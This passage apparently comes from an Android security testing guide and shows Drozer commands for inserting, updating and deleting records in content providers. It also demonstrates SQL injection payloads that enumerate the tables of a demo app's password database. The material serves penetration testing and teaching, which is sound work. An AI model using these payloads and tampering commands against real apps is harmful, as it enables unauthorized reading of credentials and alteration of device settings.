 You can also use Drozer to insert, update, and delete records from a vulnerable
content provider:

- Insert record

  ```bash
  dz> run app.provider.insert content://com.vulnerable.im/messages
                  --string date 1331763850325
                  --string type 0
                  --integer _id 7
  ```

- Update record

  ```bash
  dz> run app.provider.update content://settings/secure
                  --selection "name=?"
                  --selection-args assisted_gps_enabled
                  --integer value 0
  ```

- Delete record

  ```bash
  dz> run app.provider.delete content://settings/secure
                  --selection "name=?"
                  --selection-args my_setting
  ```

#### SQL Injection in Content Providers

The Android platform promotes SQLite databases for storing user data. Because
these databases are based on SQL, they may be vulnerable to SQL injection. You
can use the Drozer module `app.provider.query` to test for SQL injection by
manipulating the projection and selection fields that are passed to the content
provider:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

If an application is vulnerable to SQL Injection, it will return a verbose error
message. SQL Injection on Android may be used to modify or query data from the
vulnerable content provider. In the following example, the Drozer module
`app.provider.query` is used to list all the database tables:

```bash
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```
